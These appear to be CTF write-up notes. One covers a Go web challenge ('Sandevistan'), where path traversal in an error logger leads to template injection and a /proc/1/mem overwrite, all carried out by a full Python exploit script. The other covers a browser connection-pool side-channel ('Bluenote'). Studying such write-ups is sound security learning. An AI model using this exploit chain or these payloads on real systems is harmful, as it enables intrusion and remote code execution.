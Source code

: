 ## Sandevistan
Giving is a Go app and goal is to exexute /redflag in the server

### Concerned source code snippets
```
func (s *Server) cwHandlePost(w http.ResponseWriter, r *http.Request){
    err := r.ParseForm()
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }
    ue := checkForm(r)
 
    // The rest is left out because it's not important
}

func checkForm(r *http.Request) *models.UserError {
    var ue *models.UserError
    ctx := r.Context()
    username, exists := r.Form["username"]
    if !exists {
        ue = &models.UserError{
            Value: "NOUSER",
            Filename: "nouser",
            Ctx: ctx,
        }
        return ue
    }
    ctx = context.WithValue(ctx, "username", username[len(username)-1])
    cwName, exists := r.Form["name"]
    if !exists {
        ue = utils.ErrorFactory(ctx, "CyberWare name doesn't exist", username[len(username)-1])
        return ue
    }
    ue = utils.AlphaNumCheck(ctx, cwName[0])
    return ue
}

func AlphaNumCheck(ctx context.Context, t string) *models.UserError {
    if !regexp.MustCompile(`^[a-zA-Z0-9]*$`).MatchString(t) {
        v := fmt.Sprintf("ERROR! Invalid Value: %s\n", t)
        username := ctx.Value("username")
        regexErr := ErrorFactory(ctx, v, username.(string))
        return regexErr
    }
    return nil
}

func ErrorFactory(ctx context.Context, v string, f string) *models.UserError {
    filename := "errorlog/" + f
    UErr := &models.UserError{
        v,
        f,
        ctx,
    }
    file, _ := os.OpenFile(filename, os.O_RDWR|os.O_CREATE, 0644)
    defer file.Close()

    file.WriteString(v)
    return UErr
}

func (s *Server) handleUserGet(w http.ResponseWriter, r *http.Request) {
    u, err := s.GetUser(r.FormValue("username"))
    if err != nil {
        http.Error(w, "Username not found", http.StatusNotFound)
        return
    }

    if u.Name == "NOUSER" {
        http.Redirect(w, r, "/", http.StatusFound)
    }
    utils.RenderTemplate(w, "/tmpl/user", u)
}

func (u *User) SerializeErrors(data string, index int, offset int64) error {
  fname := u.Errors[index]

    if fname == nil {
        return errors.New("Error not found")
    }
 
    f, err := os.OpenFile(fname.Filename, os.O_RDWR, 0)
    if err != nil {
        return errors.New("File not found")
    }
    defer f.Close()

    _, ferr := f.WriteAt([]byte(data), offset)
    if ferr != nil {
        return errors.New("File error writing")
    }

    return nil
}

func (u *User) UserHealthcheck() ([]byte, error) {
    cmd := exec.Command("/bin/true")  
    output, err := cmd.CombinedOutput()
    if err != nil {
        return nil, errors.New("error in healthcheck")
        panic(err)
    }
    return output, nil

}
```

- The ErrorFactory function has a path traversal vulnerability. You can overwrite any file using ErrorFactory through POST to /cyberware
- Overwrite /tmpl/user.html to do SSTI by sending a POST request with the parameter username=../tmpl/user.html&name=(payload) because it does not check if the user with the given username exists
- The handleUserGet function evaluates the template tmpl/user.html with the user object.
- Run SerializedErrors to overwrite /bin/true in /proc/1/mem
- Run UserHealthcheck to get the flag
```
import requests
# URL = "http://sandevistan.chal.perfect.blue:29005/"
URL = "http://localhost:1338/"

username = "user"

s = requests.session()
r = s.post(URL + "user", data={
    "username": username
})

r = s.post(URL + "cyberware", data={
    "username": "../tmpl/user.html",
    "name": '{{ .NewError "foo" "/proc/1/mem"  }} {{ .SerializeErrors "/readflag" 0 %d }} {{ .UserHealthcheck }}' % 0x93b6bb
})
r = s.get(URL + "user", params={
    "username": username
})
print(r.text)
```

ALTERNATE SOLUTION
![image](https://github.com/user-attachments/assets/a602ab0e-4322-4d83-899a-8a1c24073865)


## Bluenote
Couldnt find the actual chall but the writeups were something new i read
```
intended solution for bluenote was connection pool abuse yeah
if you block all the sockets, you can let individual blocks of requests go through if you unblock and reblock very quickly
so you block all the sockets, make your search guess, reblock quickly to let the page request through. so the search request is made, and now youre blocking the pool again 
then if your search is right, the page makes a request to dompurify, which should be blocked, and if the search is not right, there is no request 
then you make a request with lower priority than dompurify (i used script async), but higher priority than the background socket blocking fetches
then you allow one request through, if your script async went through there was nothing higher priority. if your script request did not go through, there mustve been something higher priority, meaning dompurify was loaded, meaning your search worked
```
